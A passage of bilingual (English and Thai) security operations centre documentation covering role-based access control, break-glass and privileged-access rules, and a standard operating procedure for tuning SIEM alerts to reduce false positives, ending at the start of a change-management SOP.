| Password vaulting | Service account passwords in CyberArk/HashiCorp Vault |
| Credential rotation | Automated rotation every 90 days |
| Multi-level approval | P1 incident: SOC Manager; Config changes: CISO |

## Related Documents

- [SOC Team Structure](SOC_Team_Structure.en.md)
- [Change Management SOP](Change_Management.en.md)
- [Data Handling Protocol](Data_Handling_Protocol.en.md)


---

## File: 06_Operations_Management/Access_Control.th.md

# นโยบายควบคุมการเข้าถึง SOC

> **รหัสเอกสาร:** ACC-001  
> **เวอร์ชัน:** 1.0  
> **อัปเดตล่าสุด:** 2026-02-15  
> **เจ้าของ:** SOC Manager / CISO

---

## ตาราง Access ตามบทบาท

| เครื่องมือ | T1 | T2 | Lead | Manager | DetEng | MSSP |
|:---|:---:|:---:|:---:|:---:|:---:|:---:|
| SIEM อ่าน/ค้นหา | ✅ | ✅ | ✅ | ✅ | ✅ | ✅ จำกัด |
| SIEM สร้าง Rule | ❌ | ✅ | ✅ | ✅ | ✅ | ❌ |
| SIEM Admin | ❌ | ❌ | ❌ | ✅ | ✅ | ❌ |
| EDR ดู Alert | ✅ | ✅ | ✅ | ✅ | ✅ | ✅ จำกัด |
| EDR Isolate | ❌ | ✅ | ✅ | ✅ | ❌ | ❌ |
| Ticketing สร้าง | ✅ | ✅ | ✅ | ✅ | ✅ | ✅ |
| Ticketing ปิด P1/P2 | ❌ | ❌ | ✅ | ✅ | ❌ | ❌ |
| Firewall Block IP | ❌ | ✅ ชั่วคราว | ✅ | ✅ | ❌ | ❌ |
| SOAR แก้ Playbook | ❌ | ❌ | ✅ | ✅ | ✅ | ❌ |

---

## ข้อกำหนดความปลอดภัยบัญชี

| การควบคุม | ข้อกำหนด |
|:---|:---|
| **Authentication** | MFA บังคับทุกเครื่องมือ SOC |
| **Password** | ≥ 14 ตัวอักษร, ไม่ซ้ำ 12 รอบ |
| **Session timeout** | 15 นาที inactive → lock |
| **Service accounts** | เฉพาะแต่ละเครื่องมือ, rotate 90 วัน |
| **API keys** | ต่อคน, rotate 90 วัน, เก็บใน vault |
| **Remote access** | VPN/Zero Trust บังคับ |

---

## ตารางทบทวน Access

| ทบทวน | ความถี่ | ผู้รับผิดชอบ |
|:---|:---:|:---|
| บัญชี active | รายเดือน | SOC Manager |
| ระดับสิทธิ์ | รายไตรมาส | SOC Manager + CISO |
| Service accounts | รายไตรมาส | SOC Engineer |
| MSSP access | รายเดือน | SOC Manager |
| Full audit | รายปี | CISO + Internal Audit |

---

## Checklist เมื่อคนออก

```
□ ปิดบัญชี AD/Azure AD (ภายใน 1 ชม.)
□ เพิกถอน SIEM, EDR, Ticketing, SOAR, VPN, TI access
□ Rotate shared credentials ที่คนนั้นเข้าถึงได้
□ ลบจาก Slack/Teams SOC
□ ลบจาก on-call/shift rotation
□ โอนย้าย dashboards/rules ที่สร้างไว้
□ บันทึกใน Access Register
```

---

## ตารางสิทธิ์ตามบทบาท (RBAC)

| สิทธิ์ | Tier 1 | Tier 2 | Tier 3 | Engineer | Manager |
|:---|:---:|:---:|:---:|:---:|:---:|
| ดู Dashboard | ✅ | ✅ | ✅ | ✅ | ✅ |
| คัดกรอง Alert | ✅ | ✅ | ✅ | ✅ | ✅ |
| แยก Endpoint | ❌ | ✅ | ✅ | ✅ | ✅ |
| แก้ไข Config | ❌ | ❌ | ✅ | ✅ | ✅ |
| จัดการผู้ใช้ | ❌ | ❌ | ❌ | ✅ | ✅ |
| ดูข้อมูล Raw | ❌ | ❌ | ✅ | ✅ | ✅ |

## ตารางทบทวนสิทธิ์

| การทบทวน | ความถี่ | ผู้รับผิดชอบ | ผลลัพธ์ |
|:---|:---|:---|:---|
| ทบทวนสิทธิ์ผู้ใช้ | รายไตรมาส | SOC Manager | รายงานสิทธิ์ |
| ตรวจสอบบัญชีที่ไม่ได้ใช้ | รายเดือน | SOC Engineer | ปิดบัญชี inactive |
| ทบทวน MFA compliance | รายเดือน | SOC Engineer | รายงาน compliance |
| ตรวจสอบ Privileged access | รายไตรมาส | SOC Manager + CISO | การตรวจสอบ PAM |

## Access Control Matrix

### Role-based Permissions

| Role | SIEM | EDR | Firewall | Ticketing |
|:---|:---|:---|:---|:---|
| Tier 1 Analyst | Read | Read | None | Read/Write |
| Tier 2 Analyst | Read/Write | Read/Write | Read | Read/Write |
| Tier 3 Engineer | Admin | Admin | Read | Admin |
| SOC Manager | Admin | Admin | Read/Write | Admin |

### Access Review Schedule

| Review Type | Frequency | Reviewer | SLA |
|:---|:---|:---|:---|
| New access | ทุกครั้ง | SOC Manager | 24 ชม. |
| Quarterly review | ทุก 3 เดือน | CISO | 5 วัน |
| Termination | ทันที | HR + IT | 4 ชม. |
| Privilege escalation | ทุกครั้ง | CISO | 48 ชม. |

### Emergency Access Procedure

| Step | Action | SLA |
|:---|:---|:---|
| 1 | ขอ emergency access | ทันที |
| 2 | Verbal approval จาก CISO | 15 min |
| 3 | Grant temporary access | 30 min |
| 4 | Log all activities | Real-time |
| 5 | Revoke เมื่อเสร็จ | ทันที |
| 6 | Post-review | 24 hrs |

### Access Log Monitoring

| Event | Alert? | Review |
|:---|:---|:---|
| Admin login | ✅ | Real-time |
| After-hours | ✅ | Next day |
| Failed attempt | >5 = ✅ | Daily |

## การเข้าถึงฉุกเฉิน (Break-Glass)

เมื่อเกิด incident วิกฤตที่เข้าระบบปกติไม่ได้:

| สถานการณ์ | ขั้นตอน Break-Glass | หลังเหตุการณ์ |
|:---|:---|:---|
| SSO/IdP ล่ม เข้า SIEM ไม่ได้ | ใช้ local admin account (ซองปิดผนึก) | เปลี่ยน password ทันที, บันทึกการใช้ |
| MFA provider ล่ม | ใช้ backup codes (ออกล่วงหน้า) | แจ้ง IT, ตรวจสอบ session ทั้งหมด |
| Analyst หลักไม่อยู่ตอน P1 | SOC Manager ให้ temp access แก่คนสำรอง | ถอน access ภายใน 24 ชม. |
| SOAR API credentials หมดอายุระหว่าง incident | ใช้ manual command override | Rotate credentials, อัปเดต vault |

### กฎ Break-Glass
1. **กฎสองคน** — ต้อง SOC Manager หรือ CISO อนุมัติ
2. **Audit trail** — บันทึกการใช้ทั้งหมดใน incident ticket
3. **จำกัดเวลา** — ใช้ได้เฉพาะช่วง incident (สูงสุด 24 ชม.)
4. **Post-mortem** — ทบทวน break-glass ทุกครั้งในการประชุม ops สัปดาห์

## Privileged Access Management (PAM)

```mermaid
graph LR
    Request["ขอ PAM<br/>Access"] --> Approve["Manager<br/>อนุมัติ"]
    Approve --> Grant["JIT Access<br/>ให้แล้ว"]
    Grant --> Session["บันทึก<br/>Session"]
    Session --> Expire["หมดอายุ<br/>อัตโนมัติ (4 ชม.)"]
    Expire --> Audit["Audit Log<br/>สร้างแล้ว"]
```

| PAM Control | การใช้งาน |
|:---|:---|
| Just-In-Time (JIT) access | Admin access ให้เป็นรอบ 4 ชม. เท่านั้น |
| บันทึก Session | Admin session ทุกครั้งถูกบันทึกเก็บ 1 ปี |
| Password vaulting | Service account passwords ใน CyberArk/HashiCorp Vault |
| Credential rotation | หมุนอัตโนมัติทุก 90 วัน |
| อนุมัติหลายระดับ | P1 incident: SOC Manager; Config changes: CISO |

## เอกสารที่เกี่ยวข้อง

- [โครงสร้างทีม SOC](SOC_Team_Structure.th.md)
- [SOP จัดการเปลี่ยนแปลง](Change_Management.th.md)
- [โปรโตคอลข้อมูล](Data_Handling_Protocol.th.md)


---

## File: 06_Operations_Management/Alert_Tuning.en.md

# Alert Tuning SOP

**Document ID**: OPS-SOP-016
**Version**: 1.0
**Classification**: Internal
**Last Updated**: 2026-02-15

> Systematic approach to **reduce false positives**, **improve alert quality**, and **prevent analyst fatigue**. Every SOC should tune continuously — this SOP defines when, how, and what to tune.

---

## Why Tune?

| Problem | Impact | Tuning Outcome |
|:---|:---|:---|
| High false positive rate (> 30%) | Analyst fatigue, missed real alerts | TP rate ≥ 80% |
| Alert floods (> 200/analyst/day) | Cannot investigate properly | Manageable volume (< 50/day) |
| Duplicate/redundant alerts | Wasted analyst time | Deduplicated, correlated |
| Irrelevant alerts for environment | Noise, eroded trust in tools | Contextual, relevant alerts |
| No severity differentiation | Everything looks the same | Prioritized, risk-scored |

---

## Tuning Lifecycle

```mermaid
graph TD
    A[1. Identify Noisy Rules] --> B[2. Analyze Root Cause]
    B --> C[3. Design Tuning Fix]
    C --> D[4. Test in Staging]
    D --> E[5. Deploy to Production]
    E --> F[6. Monitor Impact]
    F --> G{Improved?}
    G -->|Yes| H[7. Document & Close]
    G -->|No| B

    style A fill:#3b82f6,color:#fff
    style H fill:#22c55e,color:#fff
```

---

## Step 1: Identify Noisy Rules

### Metrics to Track

| Metric | Threshold for Tuning | Data Source |
|:---|:---:|:---|
| **False positive rate** | > 30% per rule | SIEM + analyst feedback |
| **Alert volume per rule** | > 50/day (single rule) | SIEM dashboard |
| **Analyst close rate without action** | > 50% | Ticketing system |
| **Average investigation time** | < 1 minute (auto-close) | Ticketing system |
| **Duplicate alert ratio** | > 20% | SIEM correlation |

### Weekly Tuning Report (Template)

| Rank | Rule Name | Rule ID | TP | FP | Volume/Day | FP Rate | Action |
|:---:|:---|:---|:---:|:---:|:---:|:---:|:---|
| 1 | ______________ | _____ | _____ | _____ | _____ | ___% | Tune/Disable/Keep |
| 2 | ______________ | _____ | _____ | _____ | _____ | ___% | Tune/Disable/Keep |
| 3 | ______________ | _____ | _____ | _____ | _____ | ___% | Tune/Disable/Keep |

> 📊 Generate this report weekly. Focus on top 10 noisiest rules.

---

## Step 2: Analyze Root Cause

### Common FP Root Causes

| Root Cause | Example | Typical Fix |
|:---|:---|:---|
| **Legitimate software** | AV flagging admin tools (PsExec, WinRM) | Allowlist by hash + source |
| **Scheduled jobs** | Cron/scheduled task triggering process creation alerts | Time-based exclusion |
| **Service accounts** | Service accounts triggering brute-force rules | Identity-based exclusion |
| **Known infrastructure** | Vulnerability scanners triggering IDS | Source IP exclusion |
| **Over-broad detection** | "Any PowerShell execution" rule | Narrow to suspicious cmdlets |
| **Missing context** | Alert lacks user/host context | Add enrichment, refine conditions |
| **Duplicate data sources** | Same event from Sysmon + EDR | Deduplicate sources |
| **Threshold too low** | Failed login threshold = 3 | Raise to 10+ in 5 min |

### Analysis Template

```markdown
## Tuning Request: [Rule Name]

**Rule ID**: _____
**Current FP Rate**: ____%
**Alert Volume**: _____ /day
**Analysis Period**: [date range]

### False Positive Patterns
- Pattern 1: _____________________________
- Pattern 2: _____________________________

### True Positive Examples
- Example 1: _____________________________

### Root Cause
[  ] Legitimate software
[  ] Scheduled jobs
[  ] Service accounts
[  ] Known infrastructure
[  ] Over-broad detection
[  ] Other: _____

### Proposed Fix
___________________________________________

### Risk of Missing True Positives
[  ] Low — fix is narrowly targeted
[  ] Medium — some edge cases possible
[  ] High — needs careful monitoring
```

---

## Step 3: Design Tuning Fix

### Tuning Techniques

| Technique | When to Use | Example | Risk |
|:---|:---|:---|:---:|
| **Allowlist by entity** | Known safe source | Exclude scanner IP from IDS | Low |
| **Allowlist by hash** | Known safe binary | Exclude signed PsExec | Low |
| **Time-based exclusion** | Scheduled activity | Exclude backups 02:00–04:00 | Medium |
| **Threshold adjustment** | Too sensitive | Failed logins: 3 → 10 in 5 min | Medium |
| **Add conditions** | Rule too broad | PowerShell + encoded + unsigned | Low |
| **Correlation rule** | Multi-stage attack | Alert only if followed by lateral movement | Medium |
| **Severity downgrade** | Alert not P1-worthy | Move from P2 to P4 | Low |
| **Deduplication** | Same alert repeated | Alert once per host per hour | Low |
| **Enrichment-based** | Needs more context | Suppress if user is VIP with MFA | Medium |
| **Disable rule** | Zero value for environment | Disable macOS rule on Windows-only | High |

### Decision Matrix

```mermaid
flowchart TD
    A[Noisy Rule Identified] --> B{Any TP in last 30 days?}
    B -->|No| C{Relevant to our environment?}
    C -->|No| D[🔴 DISABLE rule]
    C -->|Yes| E[🟡 KEEP but add conditions]
    B -->|Yes| F{FP rate > 50%?}
    F -->|Yes| G{Can narrow detection logic?}
    G -->|Yes| H[🟢 TUNE — add exclusions/conditions]
    G -->|No| I[🟡 DOWNGRADE severity + add enrichment]
    F -->|No| J{Volume > 50/day?}
    J -->|Yes| K[🟢 Deduplicate + adjust threshold]
    J -->|No| L[✅ KEEP — acceptable noise]

    style D fill:#dc2626,color:#fff
    style H fill:#22c55e,color:#fff
    style K fill:#22c55e,color:#fff
    style L fill:#3b82f6,color:#fff
```

---

## Step 4: Test in Staging

### Testing Checklist

- [ ] Tuning change documented (what/why/how)
- [ ] Applied to staging/test environment
- [ ] Replay historical logs through tuned rule
- [ ] Verify: known TP samples still detected
- [ ] Verify: known FP patterns now suppressed
- [ ] No unintended side effects on other rules
- [ ] Peer review by another analyst
- [ ] Change approved per change management process

---

## Step 5: Deploy to Production

### Deployment Procedure

| Step | Action | Owner |
|:---:|:---|:---|
| 1 | Create change ticket with tuning details | SOC Analyst |
| 2 | Get approval from SOC Lead | SOC Lead |
| 3 | Apply change during low-traffic window | Detection Engineer |
| 4 | Tag rule with tuning metadata (date, analyst, ticket) | Detection Engineer |
| 5 | Set 7-day monitoring window | SOC Lead |
| 6 | Review impact after 7 days | SOC Analyst |
| 7 | Close change ticket with results | SOC Analyst |

### Rule Metadata Tags

```yaml
# Add to rule metadata after tuning
tuning:
  last_tuned: "2026-02-15"
  tuned_by: "analyst@example.com"
  ticket: "TUNE-001"
  change_type: "exclusion_added"
  fp_rate_before: 65%
  fp_rate_after: 12%
  next_review: "2026-05-15"
```

---

## Step 6: Monitor Impact

### 7-Day Review Template

| Metric | Before Tuning | After Tuning (7 days) | Change |
|:---|:---:|:---:|:---:|
| Alert volume/day | _____ | _____ | ↓ ___% |
| True positive count | _____ | _____ | Should be stable |
| False positive count | _____ | _____ | ↓ ___% |
| FP rate | ___% | ___% | ↓ ___pp |
| Avg investigation time | ___ min | ___ min | ↓ ___% |
| Missed detections | 0 | 0 | Must be 0 |

> ⚠️ If **True Positive count drops**, investigate immediately — tuning may be too aggressive.

---

## Step 7: Document & Close

### Tuning Record

| Field | Value |
|:---|:---|
| Rule Name | ______________ |
| Rule ID | _____ |
| Tuning Date | ____-__-__ |
| Analyst | ______________ |
| Change Ticket | _____ |
| FP Rate (before) | ___% |
| FP Rate (after) | ___% |
| Volume (before) | _____/day |
| Volume (after) | _____/day |
| Tuning Type | Exclusion / Threshold / Condition / Severity / Disable |
| Next Review | ____-__-__ |

---

## Recurring Tuning Schedule

| Activity | Frequency | Owner | Output |
|:---|:---:|:---|:---|
| Top 10 noisy rules review | **Weekly** | SOC Analyst (rotating) | Tuning requests |
| New rule validation (7-day review) | **Per new rule** | Detection Engineer | Validation report |
| Rule effectiveness review | **Monthly** | Detection Engineering Lead | Rule health report |
| Full rule audit | **Quarterly** | SOC Lead + Security Engineer | Audit report + cleanup |
| ATT&CK coverage gap + tuning sync | **Quarterly** | Detection Engineering | Coverage + tuning plan |

---

## Tuning Governance

### Who Can Tune?

| Role | Can Tune? | What |
|:---|:---:|:---|
| SOC Tier 1 | ❌ | Report FP patterns (via feedback form) |
| SOC Tier 2 | ⚠️ | Propose tuning, requires SOC Lead approval |
| SOC Tier 3 / Detection Engineer | ✅ | Design and implement tuning (with peer review) |
| SOC Lead | ✅ | Approve and deploy tuning changes |
| SOC Manager | ✅ | Override: disable/enable rules, approve high-risk changes |

### Escalation for Risky Tuning

| Risk Level | Criteria | Approval Required |
|:---|:---|:---|
| 🟢 Low | Allowlist specific entity, deduplication | Peer review |
| 🟡 Medium | Threshold change, adding conditions | SOC Lead approval |
| 🔴 High | Disabling rule, major logic change | SOC Manager + documented justification |

---

## Metrics

| Metric | Target | Measurement |
|:---|:---:|:---|
| Overall TP rate (all rules) | ≥ 80% | Monthly SIEM report |
| Rules with > 50% FP rate | 0 | Weekly noisy rules report |
| Tuning requests completed within SLA | ≥ 90% | Ticketing system |
| Time from tuning request to deployment | < 5 business days | Ticketing system |
| Rules reviewed per quarter | 100% | Quarterly audit |
| Alerts per analyst per day | < 50 | SIEM + shift report |

---

## Related Documents

-   [Detection Rule Testing](Detection_Rule_Testing.en.md) — Testing methodology
-   [SOC Metrics & KPIs](SOC_Metrics.en.md) — KPI definitions
-   [SOC Automation Catalog](SOC_Automation_Catalog.en.md) — Auto-tuning automation
-   [SOC Maturity Assessment](SOC_Maturity_Assessment.en.md) — Detection maturity
-   [Log Source Matrix](Log_Source_Matrix.en.md) — Data source coverage
-   [Change Management](Change_Management.en.md) — Change approval process
-   [SOC Checklists](SOC_Checklists.en.md) — Operational checklists
-   [Detection Rules Index (Sigma)](../08_Detection_Engineering/README.md) — All 36 Sigma rules
-   [PB-01 Phishing](../05_Incident_Response/Playbooks/Phishing.en.md) — High-volume alert source
-   [PB-04 Brute Force](../05_Incident_Response/Playbooks/Brute_Force.en.md) — Threshold tuning example
-   [PB-11 Suspicious Script](../05_Incident_Response/Playbooks/Suspicious_Script.en.md) — PowerShell detection tuning


---

## File: 06_Operations_Management/Alert_Tuning.th.md

# Alert Tuning SOP / SOP การปรับจูน Alert

**รหัสเอกสาร**: OPS-SOP-016
**เวอร์ชัน**: 1.0
**การจัดชั้นความลับ**: ใช้ภายใน
**อัปเดตล่าสุด**: 2026-02-15

> แนวทางเป็นระบบในการ **ลด false positives**, **ปรับปรุงคุณภาพ alert**, และ **ป้องกัน analyst fatigue** SOC ทุกแห่งควร tune อย่างต่อเนื่อง — SOP นี้กำหนดว่าเมื่อไร, อย่างไร, และ tune อะไร

---

## ทำไมต้อง Tune?

| ปัญหา | ผลกระทบ | ผลลัพธ์จากการ Tune |
|:---|:---|:---|
| FP rate สูง (> 30%) | Analyst fatigue, พลาด alert จริง | TP rate ≥ 80% |
| Alert ท่วม (> 200/analyst/วัน) | ไม่สามารถสืบสวนได้ทั่วถึง | ปริมาณจัดการได้ (< 50/วัน) |
| Alert ซ้ำ | เสียเวลา analyst | Deduplicate + correlate |
| Alert ไม่เกี่ยวข้อง | เสียความเชื่อมั่นในเครื่องมือ | ตรงบริบท, เกี่ยวข้อง |

---

## วงจร Tuning

```mermaid
graph TD
    A[1. ระบุ Rule ที่เสียงดัง] --> B[2. วิเคราะห์สาเหตุ]
    B --> C[3. ออกแบบการแก้ไข]
    C --> D[4. ทดสอบใน Staging]
    D --> E[5. Deploy ไป Production]
    E --> F[6. Monitor ผลกระทบ]
    F --> G{ดีขึ้น?}
    G -->|ใช่| H[7. บันทึก & ปิด]
    G -->|ไม่| B

    style A fill:#3b82f6,color:#fff
    style H fill:#22c55e,color:#fff
```

---

## ขั้นที่ 1: ระบุ Rule ที่มีปัญหา

### ตัวชี้วัดที่ต้องติดตาม

| ตัวชี้วัด | เกณฑ์ที่ต้อง Tune | แหล่งข้อมูล |
|:---|:---:|:---|
| **False positive rate** | > 30% ต่อ rule | SIEM + feedback จาก analyst |
| **ปริมาณ alert ต่อ rule** | > 50/วัน (rule เดียว) | SIEM dashboard |
| **อัตราปิด alert โดยไม่มี action** | > 50% | Ticketing |
| **เวลาสืบสวนเฉลี่ย** | < 1 นาที (auto-close) | Ticketing |

### รายงาน Tuning รายสัปดาห์

| อันดับ | ชื่อ Rule | Rule ID | TP | FP | ปริมาณ/วัน | FP Rate | Action |
|:---:|:---|:---|:---:|:---:|:---:|:---:|:---|
| 1 | ______________ | _____ | _____ | _____ | _____ | ___% | Tune/Disable/Keep |
| 2 | ______________ | _____ | _____ | _____ | _____ | ___% | Tune/Disable/Keep |
| 3 | ______________ | _____ | _____ | _____ | _____ | ___% | Tune/Disable/Keep |

---

## ขั้นที่ 2: วิเคราะห์สาเหตุ FP

### สาเหตุ FP ที่พบบ่อย

| สาเหตุ | ตัวอย่าง | วิธีแก้ |
|:---|:---|:---|
| **ซอฟต์แวร์ปกติ** | AV flag admin tools (PsExec) | Allowlist โดย hash + source |
| **งาน Schedule** | Cron/task ทำให้ process creation alert | exclusion ตามเวลา |
| **Service accounts** | Service account ทำให้เกิด brute-force alert | exclusion ตาม identity |
| **Infrastructure ที่รู้จัก** | Scanner ทำให้ IDS alert | exclusion ตาม source IP |
| **Detection กว้างเกินไป** | "PowerShell ทุกคำสั่ง" | จำกัดเฉพาะ cmdlets ที่น่าสงสัย |
| **Threshold ต่ำเกินไป** | Failed login threshold = 3 | เพิ่มเป็น 10+ ใน 5 นาที |

---

## ขั้นที่ 3: เทคนิคการ Tune

| เทคนิค | เมื่อไรใช้ | ความเสี่ยง |
|:---|:---|:---:|
| **Allowlist by entity** | แหล่งที่ปลอดภัยที่รู้จัก | ต่ำ |
| **Allowlist by hash** | Binary ที่ปลอดภัยที่รู้จัก | ต่ำ |
| **Time-based exclusion** | กิจกรรมตาม schedule | ปานกลาง |
| **ปรับ Threshold** | Rule อ่อนไหวเกินไป | ปานกลาง |
| **เพิ่มเงื่อนไข** | Rule กว้างเกินไป | ต่ำ |
| **Correlation rule** | โจมตีหลายขั้นตอน | ปานกลาง |
| **ลดระดับ Severity** | Alert ไม่สมควรเป็น P1 | ต่ำ |
| **Deduplication** | Alert เดิมซ้ำ | ต่ำ |
| **ใช้ Enrichment** | ต้องการ context เพิ่ม | ปานกลาง |
| **Disable rule** | ไม่มีคุณค่าสำหรับสภาพแวดล้อม | สูง |

### Decision Matrix

```mermaid
flowchart TD
    A[Rule มีปัญหา] --> B{มี TP ใน 30 วันที่ผ่านมา?}
    B -->|ไม่| C{เกี่ยวข้องกับเรา?}
    C -->|ไม่| D[🔴 DISABLE rule]
    C -->|ใช่| E[🟡 KEEP แต่เพิ่มเงื่อนไข]
    B -->|ใช่| F{FP rate > 50%?}
    F -->|ใช่| G{จำกัด logic ได้?}
    G -->|ใช่| H[🟢 TUNE — เพิ่ม exclusions]
    G -->|ไม่| I[🟡 ลดระดับ severity + enrichment]
    F -->|ไม่| J{ปริมาณ > 50/วัน?}
    J -->|ใช่| K[🟢 Deduplicate + ปรับ threshold]
    J -->|ไม่| L[✅ KEEP — เสียงยอมรับได้]

    style D fill:#dc2626,color:#fff
    style H fill:#22c55e,color:#fff
    style K fill:#22c55e,color:#fff
    style L fill:#3b82f6,color:#fff
```

---

## ขั้นที่ 4: ทดสอบใน Staging

- [ ] บันทึกรายละเอียดการเปลี่ยนแปลง (อะไร/ทำไม/อย่างไร)
- [ ] Apply ใน staging environment
- [ ] Replay historical logs ผ่าน rule ที่ tune แล้ว
- [ ] ยืนยัน: TP samples ที่รู้จักยังตรวจพบได้
- [ ] ยืนยัน: FP patterns ที่รู้จักถูก suppress แล้ว
- [ ] ไม่มีผลข้างเคียงต่อ rule อื่น
- [ ] Peer review โดย analyst อีกคน
- [ ] อนุมัติตามกระบวนการ change management

---

## ขั้นที่ 5: Deploy ไป Production

| ขั้น | การดำเนินการ | ผู้รับผิดชอบ |
|:---:|:---|:---|
| 1 | สร้าง change ticket พร้อมรายละเอียด | SOC Analyst |
| 2 | ขออนุมัติจาก SOC Lead | SOC Lead |
| 3 | Apply การเปลี่ยนแปลงในช่วง low-traffic | Detection Engineer |
| 4 | Tag rule ด้วย tuning metadata | Detection Engineer |
| 5 | กำหนดช่วง monitor 7 วัน | SOC Lead |
| 6 | ทบทวนผลกระทบหลัง 7 วัน | SOC Analyst |

---

## ขั้นที่ 6: Monitor ผลกระทบ (7 วัน)

| ตัวชี้วัด | ก่อน Tune | หลัง Tune (7 วัน) | เปลี่ยนแปลง |
|:---|:---:|:---:|:---:|
| ปริมาณ alert/วัน | _____ | _____ | ↓ ___% |
| True positive count | _____ | _____ | ต้องคงที่ |
| False positive count | _____ | _____ | ↓ ___% |
| FP rate | ___% | ___% | ↓ ___pp |
| เวลาสืบสวนเฉลี่ย | ___ นาที | ___ นาที | ↓ ___% |
| Missed detections | 0 | 0 | ต้องเป็น 0 |

> ⚠️ ถ้า **TP count ลดลง** ให้สืบสวนทันที — การ tune อาจรุนแรงเกินไป

---

## ขั้นที่ 7: บันทึก & ปิด

| ฟิลด์ | ค่า |
|:---|:---|
| ชื่อ Rule | ______________ |
| Rule ID | _____ |
| วันที่ Tune | ____-__-__ |
| Analyst | ______________ |
| Change Ticket | _____ |
| FP Rate (ก่อน) | ___% |
| FP Rate (หลัง) | ___% |
| ปริมาณ (ก่อน) | _____/วัน |
| ปริมาณ (หลัง) | _____/วัน |
| ประเภท Tune | Exclusion / Threshold / Condition / Severity / Disable |
| ทบทวนครั้งต่อไป | ____-__-__ |

---

## ตาราง Tuning ประจำ

| กิจกรรม | ความถี่ | ผู้รับผิดชอบ | ผลลัพธ์ |
|:---|:---:|:---|:---|
| ทบทวน 10 rules ที่เสียงดังที่สุด | **รายสัปดาห์** | SOC Analyst (หมุนเวียน) | Tuning requests |
| ตรวจสอบ rule ใหม่ (7 วัน) | **ทุก rule ใหม่** | Detection Engineer | รายงาน validation |
| ทบทวนประสิทธิภาพ rule | **รายเดือน** | Detection Engineering Lead | รายงาน rule health |
| Audit rule ทั้งหมด | **รายไตรมาส** | SOC Lead + Security Engineer | รายงาน audit |

---

## Governance: ใครสามารถ Tune ได้?

| บทบาท | Tune ได้? | อะไร |
|:---|:---:|:---|
| SOC Tier 1 | ❌ | รายงาน FP patterns (ผ่านแบบฟอร์ม) |
| SOC Tier 2 | ⚠️ | เสนอ tuning, ต้องได้รับอนุมัติจาก SOC Lead |
| SOC Tier 3 / Detection Engineer | ✅ | ออกแบบและ implement (พร้อม peer review) |
| SOC Lead | ✅ | อนุมัติและ deploy |
| SOC Manager | ✅ | Override: disable/enable rules, อนุมัติ high-risk |

---

## ตัวชี้วัด

| ตัวชี้วัด | เป้าหมาย | วิธีวัด |
|:---|:---:|:---|
| TP rate รวม (ทุก rule) | ≥ 80% | SIEM report รายเดือน |
| Rules ที่มี FP > 50% | 0 | รายงานรายสัปดาห์ |
| Tuning requests เสร็จตาม SLA | ≥ 90% | Ticketing |
| เวลาจาก request ถึง deploy | < 5 วันทำการ | Ticketing |
| Alert ต่อ analyst ต่อวัน | < 50 | SIEM + shift report |

---

## Tuning Prioritization

| เกณฑ์ | น้ำหนัก | วิธีประเมิน |
|:---|:---:|:---|
| FP Volume | 30% | จำนวน FP ต่อสัปดาห์ |
| Analyst Time Wasted | 25% | FP × เวลา triage ต่อ FP |
| Alert Fatigue Risk | 25% | สัดส่วน FP ต่อ TP |
| Tuning Complexity | 20% | ง่าย / ปานกลาง / ซับซ้อน |

## Tuning Methods

| วิธี | ใช้เมื่อ | ตัวอย่าง |
|:---|:---|:---|
| **Exclusion List** | FP จาก known-good sources | Exclude scanner IPs |
| **Threshold Adjustment** | Alert sensitivity สูงเกิน | Failed login 5→10 |
| **Time Window** | FP จาก scheduled tasks | Exclude maintenance window |
| **Context Enrichment** | ต้องการข้อมูลเพิ่มก่อน alert | เพิ่ม user role lookup |
| **Rule Rewrite** | Logic ผิดพื้นฐาน | เขียน Sigma rule ใหม่ |
| **Disable Rule** | ไม่มีค่าเลย | Disable + document reason |

## A/B Testing สำหรับ Rule Changes

```mermaid
graph LR
    Original["📋 Rule เดิม<br/>(FP: 40%)"] --> Clone["📋 Rule ใหม่<br/>(คาดว่า FP ลด)"]
    Clone --> Both["รันคู่กัน 7 วัน"]
    Both --> Compare["📊 เปรียบเทียบ"]
    Compare --> Better{"Rule ใหม่ดีกว่า?"}
    Better -->|ใช่| Replace["✅ ใช้ Rule ใหม่"]
    Better -->|ไม่| Keep["🔄 ปรับเพิ่ม/คงเดิม"]
```

## Tuning Log Template

| ฟิลด์ | ค่า |
|:---|:---|
| **Tuning ID** | TUNE-YYYY-NNN |
| **Rule Name/ID** | [ระบุ] |
| **FP Rate ก่อน** | [XX]% |
| **การเปลี่ยนแปลง** | [ระบุ] |
| **FP Rate หลัง** | [XX]% |
| **DP Impact** | ตรวจจับ TP ลดลงหรือไม่ |
| **ผู้ดำเนินการ** | [ชื่อ] |
| **วันที่** | [YYYY-MM-DD] |

## Alert Tuning Playbook

### Tuning Decision Tree

```mermaid
flowchart TD
    A[High volume alert] --> B{True positive?}
    B -->|< 5%| C[Disable or re-scope]
    B -->|5-50%| D[Add exclusions]
    B -->|> 50%| E[Keep as-is]
    D --> F{Still noisy?}
    F -->|Yes| G[Split into sub-rules]
    F -->|No| H[Monitor 7 days]
```

### Tuning Log Template

| Date | Rule Name | Action | Reason | FP Before | FP After |
|:---|:---|:---|:---|:---|:---|
| | | Whitelist | Known scanner | 85% | 12% |
| | | Threshold ↑ | Normal baseline | 70% | 15% |
| | | Disable | Deprecated source | 95% | N/A |

### Weekly Tuning Cycle

| Day | Activity | Owner |
|:---|:---|:---|
| Mon | Review top noisy rules | Analyst |
| Tue | Propose exclusions | Engineer |
| Wed | Test in shadow mode | Engineer |
| Thu | Deploy changes | Lead |
| Fri | Validate improvements | Analyst |

## เอกสารที่เกี่ยวข้อง

-   [Detection Rule Testing](Detection_Rule_Testing.th.md) — วิธีการทดสอบ
-   [SOC Metrics & KPIs](SOC_Metrics.th.md) — นิยาม KPI
-   [SOC Automation Catalog](SOC_Automation_Catalog.th.md) — Auto-tuning
-   [SOC Maturity Assessment](SOC_Maturity_Assessment.th.md) — วุฒิภาวะ detection
-   [Change Management](Change_Management.th.md) — กระบวนการอนุมัติ
-   [ดัชนี Detection Rules (Sigma)](../08_Detection_Engineering/README.th.md) — Sigma rules ทั้ง 36 กฎ
-   [PB-01 Phishing](../05_Incident_Response/Playbooks/Phishing.th.md) — แหล่ง alert ปริมาณสูง
-   [PB-04 Brute Force](../05_Incident_Response/Playbooks/Brute_Force.th.md) — ตัวอย่างการปรับ threshold
-   [PB-11 Suspicious Script](../05_Incident_Response/Playbooks/Suspicious_Script.th.md) — การ tune PowerShell detection


---

## File: 06_Operations_Management/Change_Management.en.md

# SOC Change Management SOP

> **Document ID:** CHG-001  
> **Version:** 1.0  
> **Last Updated:** 2026-02-15  
> **Owner:** SOC Manager

---

## Purpose

